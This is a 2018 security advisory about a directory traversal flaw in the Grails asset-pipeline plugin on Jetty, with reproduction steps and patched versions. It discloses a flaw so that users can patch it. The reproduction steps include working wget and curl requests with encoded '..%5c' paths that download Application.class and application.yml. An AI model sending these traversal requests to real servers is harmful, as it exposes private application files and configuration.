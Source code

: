 title: Security Vulnerability in Asset-Pipeline and Jetty
date: September 23, 2018
description: Security vulnerability in asset-pipeline and Jetty
author: Iván López
image: 2018-09-23.jpg
---

# [%title]

[%author]

[%date]

Tags: #plugins

## Introduction

[Asset-pipeline](https://github.com/bertramdev/asset-pipeline) has been the default plugin for handling static assets in a Grails<sup>&reg;</sup> web application since Grails 2.4.0\. A security vulnerability that involves asset-pipeline and Jetty has been identified.

## Affected Versions

The vulnerability affects all asset-pipeline users that deploy Grails applications in Jetty, and it allows directory traversal and download any file knowing its specific directory.

## Reproducing The Issue

*   Create a new grails application: `grails create-app foo`
*   In `build.gradle` change the `spring-boot-starter-tomcat` to `spring-boot-starter-jetty`
*   Build a war file: `grails war`
*   Deploy to Jetty
*   Send the following request to download Application.class `wget localhost:8080/foo-0.1/assets/..%5c%5cfoo%5cApplication.class -O Application.class`
*   It is also possible to download any any arbitrary file if the path is known. For example to download `application.yml`execute `curl -v localhost:8080/foo-0.1/assets/..%5capplication.yml`.

## Fixing The Issue

The vulnerability has been addressed in recent versions of the asset-pipeline plugin:

*   2.14.1.1 for Grails 2.x
*   2.15.1 for Grails 3 and Java 7
*   3.0.6 for Grails 3 and Java 8
